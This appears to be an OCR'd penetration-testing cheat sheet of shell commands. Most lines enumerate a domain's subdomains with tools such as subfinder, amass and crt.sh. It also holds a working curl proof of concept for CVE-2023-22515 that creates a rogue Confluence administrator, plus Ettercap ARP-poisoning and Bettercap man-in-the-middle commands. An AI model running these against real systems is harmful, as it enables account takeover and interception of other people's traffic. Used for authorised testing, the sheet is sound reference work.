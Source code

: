 

##  
curl -s "https://crt.sh/?q=%25.$DM&output=json" | jq -r '.[].name_value' 2>/dev/null | sed 's/\*\.//g' | sort -u | grep -o "\w.*$DM" | anew -q .tmp/cert.list


##  
curl -s "https://api.hackertarget.com/hostsearch/?q=$DM" | grep -o "\w.*$DM" | anew -q .tmp/htarget.list


##  
curl -s "https://riddler.io/search/exportcsv?q=pld:$DM" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep -o "\w.*$DM" | anew -q .tmp/riddler.list



##   PoC for CVE-2023-22515: 
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action 
##   (login with adm1n/adm1n)



##  
assetfinder --subs-only $DM | anew -q .tmp/assetfinder.list
    python3 ~/tools/Sublist3r/


##  
sublist3r.py -d $DM -o .tmp/sublister.list &> /dev/null
   
 
 ##  
 subfinder -silent -d $DM -all -t 100 -o .tmp/subfinder.list &> /dev/null
 
 
##  
amass enum -passive -d $DM -o .tmp/amass.list &> /dev/null


##  
crobat -s $DM | anew -q .tmp/crobat.list



##  ARP Cache Poisoning with Ettercap (old school)
ettercap -T -q -i <interface> -w dump -M ARP /<ip_target>/ /<ip_gateway>/


##  Note: Do not forget to enable routing, ##  otherwise it will cut internet connection for targets.
##  Bettercap Web UI
bettercap -caplet https-ui -iface <interface>
